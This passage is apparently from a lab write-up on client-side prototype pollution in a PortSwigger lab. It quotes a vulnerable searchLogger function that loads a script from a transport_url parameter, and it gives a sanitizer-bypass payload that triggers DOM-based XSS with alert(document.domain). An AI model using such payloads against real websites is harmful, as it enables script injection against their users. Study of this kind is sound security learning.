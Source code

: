**In the `searchLoggerFiltered.js`, we see this:**
```js
async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```

This function `searchLogger()` has **an object called `config`, and it's attribute `transport_url` is being parsed to an `<script>` element's `src` attribute!**

Armed with above information, we can pollute the `transport_url` attribute the trigger an DOM-based XSS payload!

### Combine these to call `alert()`

**Payload:**
```js
/?__pro__proto__to__[transport_url]=data:,alert(document.domain);
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-5/images/Pasted%20image%2020230122165043.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-5/images/Pasted%20image%2020230122165053.png)

# What we've learned:

1. Client-side prototype pollution via flawed sanitization
